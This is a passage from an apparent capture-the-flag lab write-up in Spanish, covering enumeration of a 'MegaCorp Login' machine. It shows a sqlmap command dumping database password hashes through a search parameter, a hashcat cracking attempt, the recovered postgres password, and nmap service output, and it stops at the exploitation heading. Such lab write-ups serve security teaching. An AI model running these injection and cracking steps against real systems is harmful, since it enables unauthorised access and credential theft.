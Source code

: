     Buscamos los passwords con :
    
    ```bash
    sqlmap -u 'http://10.129.249.41/dashboard.php?search=1' --cookie "PHPSESSID=a3tqcq298ggfth9njj2mgg6ch1" --passwords --batch
    
    database management system users password hashes:
    [*] postgres [1]:
        password hash: md52d58e0637ec1e94cdfba3d1c26b67d01
    ```
    
    Vemos que es un MD5, probamos con hashcat:
    
    ```bash
    hashcat 2d58e0637ec1e94cdfba3d1c26b67d01 -m 0 /usr/share/wordlist/rockyou.txt
    ```
    
    No encuentra nada, por lo que buscamos el hash en [hashes.com](http://hashes.com) y encontramos :
    
    Hash :2d58e0637ec1e94cdfba3d1c26b67d01
    
    Password: **P@s5w0rd!postgres**
    
    - 80 / TCP : Apache httpd 2.4.41 ((Ubuntu))
    
    ```bash
    80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
    |_http-server-header: Apache/2.4.41 (Ubuntu)
    |_http-title: MegaCorp Login
    | http-cookie-flags: 
    |   /: 
    |     PHPSESSID: 
    |_      httponly flag not set
    ```
    
    - 22/SSH : OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    
    ```bash
    22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6ubuntu0.1 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
    |   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
    |_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
    ```
    

## Explotación

<aside>
💡
